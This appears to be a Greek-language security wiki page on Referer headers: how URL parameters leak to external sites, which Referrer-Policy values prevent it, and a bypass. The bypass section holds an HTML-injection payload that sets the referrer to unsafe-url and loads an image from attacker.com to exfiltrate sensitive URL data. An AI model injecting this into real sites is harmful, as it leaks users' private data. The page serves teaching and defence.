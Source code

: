 {{#include ../banners/hacktricks-training.md}}

# Referrer headers and policy

Referrer είναι η κεφαλίδα που χρησιμοποιούν οι φυλλομετρητές για να υποδείξουν ποια ήταν η προηγούμενη σελίδα που επισκέφτηκε ο χρήστης.

## Ευαίσθητες πληροφορίες που διαρρέουν

Αν σε κάποιο σημείο μέσα σε μια ιστοσελίδα οποιαδήποτε ευαίσθητη πληροφορία βρίσκεται σε παραμέτρους GET αιτήματος, αν η σελίδα περιέχει συνδέσμους σε εξωτερικές πηγές ή αν ένας επιτιθέμενος είναι σε θέση να κάνει/προτείνει (κοινωνική μηχανική) στον χρήστη να επισκεφθεί μια διεύθυνση URL που ελέγχεται από τον επιτιθέμενο. Θα μπορούσε να είναι σε θέση να εξάγει τις ευαίσθητες πληροφορίες μέσα στο τελευταίο GET αίτημα.

## Mitigation

Μπορείτε να κάνετε τον φυλλομετρητή να ακολουθεί μια **Referrer-policy** που θα μπορούσε να **αποφύγει** την αποστολή των ευαίσθητων πληροφοριών σε άλλες διαδικτυακές εφαρμογές:
```
Referrer-Policy: no-referrer
Referrer-Policy: no-referrer-when-downgrade
Referrer-Policy: origin
Referrer-Policy: origin-when-cross-origin
Referrer-Policy: same-origin
Referrer-Policy: strict-origin
Referrer-Policy: strict-origin-when-cross-origin
Referrer-Policy: unsafe-url
```
## Αντεπίθεση

Μπορείτε να παρακάμψετε αυτόν τον κανόνα χρησιμοποιώντας μια ετικέτα HTML meta (ο επιτιθέμενος πρέπει να εκμεταλλευτεί και μια ένεση HTML):
```markup
<meta name="referrer" content="unsafe-url">
<img src="https://attacker.com">
```
## Άμυνα

Ποτέ μην τοποθετείτε ευαίσθητα δεδομένα μέσα σε παραμέτρους GET ή διαδρομές στη διεύθυνση URL.

{{#include ../banners/hacktricks-training.md}}
